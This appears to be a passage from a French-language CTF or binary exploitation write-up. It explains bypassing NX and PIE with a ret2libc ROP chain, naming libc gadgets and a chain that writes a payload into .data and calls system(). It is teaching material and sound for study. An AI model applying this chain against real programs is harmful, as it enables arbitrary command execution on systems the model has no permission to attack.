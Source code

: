```
7fa18b158000-7fa18b159000 rw-p 00000000 00:00 0 7ffc1c50c000-7ffc1c52d000 rw-p 00000000 00:00 0 [stack] 
7ffc1c5d1000-7ffc1c5d5000 r--p 00000000 00:00 0 [vvar] 
7ffc1c5d5000-7ffc1c5d7000 r-xp 00000000 00:00 0 [vdso] 
```



### 3ème soucis
NX et PIE d'activé comme sécuritée sur le binaire
### solution
ropchain ou ret2libc 
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
- https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
(super blog)



### 4ème soucis
je trouve pas les gadgets nécessaire pour ropchain afin de mener à bien notre ret2libc
### solution
trouver nos gadgets dans la libc



### exploit

donc voici ce que j'ai trouvé pour mener à bien cette exploitation :

```
libc :
	mov qword ptr [rsi], rdi ; ret
	function system()

binary :
	pop rdi ; ret
	pop rsi; pop r15; ret;
```

grâce à ça on va pouvoir copier notre payload dans une section où l'ont peu écrire et le retrouver facilement pour ma part j'ai choisis .data

pour ça j'utilse :

```
pop rdi; ret                    ---> on met notre payload dans rdi
paylaod
pop rsi; pop r15; ret;          ---> on met l'addresse de .data dans rsi
address of .data
NULL
mov qword ptr [rsi], rdi; ret   ---> on déplace notre payload à l'addresse de .data
pop rdi; ret                    ---> on met dans rdi l'addresse de notre payload donc .data 
                                ---> voir https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/linux-x64-calling-convention-stack-frame
address of .data
call system
```
